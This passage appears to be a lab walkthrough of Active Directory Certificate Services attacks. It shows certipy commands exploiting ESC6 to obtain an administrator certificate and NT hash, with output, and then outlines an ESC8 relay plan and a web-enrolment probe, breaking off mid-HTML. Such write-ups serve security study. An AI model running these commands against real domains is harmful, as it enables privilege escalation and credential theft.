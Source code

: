## 6.5 ESC6 Exploitation

```text
ESC6 is when the CA has `EDITF_ATTRIBUTESUBJECTALTNAME2` flag, which allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template's configuration.

Since ESSOS-CA is vulnerable to ESC6, ESC1 can be done but with the user template instead of ESC1 template, even if the user template got Enrollee Supplies Subject set to `false`.
```

`certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template User -ca ESSOS-CA -upn administrator@essos.local`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate object SID is 'S-1-5-21-1626587276-1544673639-3547638884-1114'
[*] Saved certificate and private key to 'administrator.pfx'
```

`certipy auth -pfx administrator.pfx -dc-ip 10.4.10.12`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```


## 6.6 ESC8 Exploitation

What I will do here
1. Using `PetitPotam` I will coerce a domain controller to authenticate to my Kali Machine.
2. Kali Machine will be running `ntlmrelayx` which will intercept the authentication and relay it to ADCS.
3. ADCS will issue a domain controller certificate to me.
4. I will use it to request a TGT.

First check if the web enrolment is up and running on BRAAVOS:

`curl http://10.4.10.23/certsrv/certfnsh.asp`

And based on the result I can see that there is one:

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"/>
<title>401 - Unauthorized: Access is denied due to invalid credentials.</title>
<style type="text/css">
<!--
body{margin:0;font-size:.7em;font-family:Verdana, Arial, Helvetica, sans-serif;background:#EEEEEE;}
fieldset{padding:0 15px 10px 15px;}
h1{font-size:2.4em;margin:0;color:#FFF;}
h2{font-size:1.7em;margin:0;color:#CC0000;}
h3{font-size:1.2em;margin:10px 0 0 0;color:#000000;}
```